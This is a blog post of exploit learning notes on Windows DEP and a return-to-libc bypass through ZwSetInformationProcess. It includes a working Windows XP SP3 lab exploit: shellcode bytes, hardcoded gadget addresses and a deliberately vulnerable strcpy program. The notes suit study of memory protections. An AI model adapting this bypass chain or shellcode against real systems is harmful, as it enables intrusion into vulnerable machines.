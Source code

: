 ```yaml
---
title: Exploit learning notes 014 DEP Introduction
Description: Windows DEP protection and simple attack methods
date: 2020-11-19 12:42:00+0800
categories:
    - Exploit
tags:
    - Windows
    - DataExecutionPrevention
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-014-dep-introduction/)

## Introduction to DEP

> The root cause of overflow attacks is the failure to accurately distinguish between data and code, but redesigning the computer architecture is unlikely, so various approaches are used to mitigate overflow attacks

### Principle

- The memory page where the data is located is marked as non-executable, and the CPU will throw an execution exception when the program successfully overflows into the shellcode
- DEP is divided into software DEP and hardware DEP, while software DEP refers to SafeSEH, hardware DEP is called No-Execute Page-Protection (NX) on AMD platforms and Execute Disable Bit (XD) on Intel platforms
- The operating system indicates that the code cannot be executed from here by setting the NX and XD tags on the memory page, and a tag is inserted in the PageTable to identify whether this page is running execution instructions, with 0 indicating allowed and 1 indicating not allowed

### The working status of DEP

- Optin: Allow system components and services to use DEP, other programs will not be protected, and the user can mark the program to use DEP through the ACT tool, this protection can be dynamically closed by the program, mostly used for ordinary user operating systems
- Output: Enable DEP for programs that are excluded from the list, mostly used in server operating systems
- AlwaysOn: DEP protection is applied to all programs and cannot be turned off, only 64-bit operating systems use this mode
- AlwaysOff: not used in general

### Compile options

> `/NXCOMPAT` compile option will set `IMAGE_DLLCHARACTERISTICS_ NX_COMPAT` flag in PE header, located in `IMAGE_OPTIONAL_HEADER` in `DllCharacteristics`, a value of `0x100` means DEP is enabled

## Challenging DEP with Ret2Libc

### Principle

- The reason for overflow failure during DEP protection is that DEP detects that the code is executing on a non-executable page, and if the program is allowed to jump directly to a pre-existing system function, it will necessarily not be intercepted
- `Ret2Libc` is the abbreviation of `Return-to-libc`, if each exploit finds a replacement in the system lib, then this exp must be executed correctly, but the problem is that not every instruction does not contain 0, and it is easy to jump to the wrong place constantly
- Here are three possible ways
  - Jump to `ZwSetinfomationProcess` function to turn off DEP and go to shellcode
  - Jump to `VirtualProtect` to make the shellcode page executable, then go to shellcode execution
  - Jump to `VirtualAlloc` to request a piece of executable memory space and then jump to shellcode execution

### Try ZwSetinfomationProcess to close DEP

#### Preceding content

- The DEP identifier of a process is present in the `_KEXECUTE_OPTION` of the `KPROCESS` structure and can be modified by the API function

> `_KEXECUTE_OPTION` structure

```cpp
Pos0ExecuteDisable:1bit
Pos1ExecuteEnable:1bit
Pos2DisableThunkEmulation:1bit
Pos3Permanent:1bit
Pos4ExecuteDispatchEnable:1bit
Pos5ImageDispatchEnable:1bit
Pos6Spare:2bit
```

- When the current process DEP is on, `ExecuteDisable` will be set to 1
- When the current process DEP is closed, `ExecuteEnable` will be set to 1.
- `DisableThunkEmulation` is set for ATL compatibility
- `Permanent` is set to 1 to indicate that none of these flags can be modified
- We can set `ExecuteEnable` to 1 by setting the value of `_KEXECUTE_OPTIONS` to `0x02(00000010)`.

#### shellcode principle

- The `LdrpCheckNXCompatibility` function checks for DEP compatibility and will turn off DEP if one of the following conditions is met
  - The DLL is protected by the SafeDisc copyright protection system
  - If the DLL contains `.aspack`, `.pcle`, `.sforce`, etc. bytes
  - When the DLL exists in a module declared in the registry that does not require DEP to be enabled `HKEY_LOCAL_MACHINE\SOFTWARE \Microsoft\ Windows NT\CurrentVersion\Image File Execution Options\DllNXOptions`

#### Code

> Test environment: System: Windows XP SP3, DEP Status: Optout, Compiler: VC6, Compile Options: Disable Optimization, Version: release

```cpp
ULONG ExecuteFlags = MEM_EXECUTE_OPTION_ENABLE;

ZwSetInformationProcess(
    NtCurrentProcess(),     // Handle(-1)
    ProcessExecuteFlags,    //0x22
    &ExecuteFlags,          // ptr to 0x2
    sizeof(ExecuteFlags)    //0x4
);
```

```cpp
#include <string.h>
#include <windows.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x52\xE2\x92\x7C" // mov eax, 1
"\x96\x73\x1B\x5D" // mov ebp, esp & esp+8
"\x1E\xAD\x17\x5D" // esp+0x24
"\xB4\xC1\xC5\x7D" // jmp esp
"\x90\x90\x90\x90"
"\x24\xCD\x93\x7C" // call Close DEP
"\x90\x90\xE9\x2D" // jmp to shellcode start
"\xFF\xFF\xFF\x90"
;

void test()
{
    char tt[176];
    strcpy(tt,shellcode);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();

    return 0;
}
```

#### Technical details

- Need to compare whether al is 1 or not, so the first step retn will return to `mov eax, 1`, the address of `retn`, this address will return to the location of repair ebp
- Because before calling the function, the value in ebp will be accessed, but it has been swiped, so ebp will be repaired, here we use `push esp`, `pop ebp`, `retn` three instructions to assign the address in esp to ebp, because retn is followed by a number, so ebp will add this number, that is `ebp+8`, at this time ebp is smaller than esp, once the subroutine is called, the stack area will be destroyed, so we still have to add some more ebp, I choose to add 0x24 to esp, and the previous 0x8 to make a stack space of 0x30, so that in the return time will return to the statement `retn 0x24`.
- The `retn 0x24` statement will return to the place where the function `ZwSetInformationProcess` is called to close the DEP, and after that it will use the leave statement and retn, so it will return to the address of `jmp esp`.
- Jump from `jmp esp` to the address where `\x24\xCD\x93\x7C` data is stored, and this garbage data will not affect the execution of shellcode
- Just write a jump after the garbage data, and then jump to the real execution of shellcode
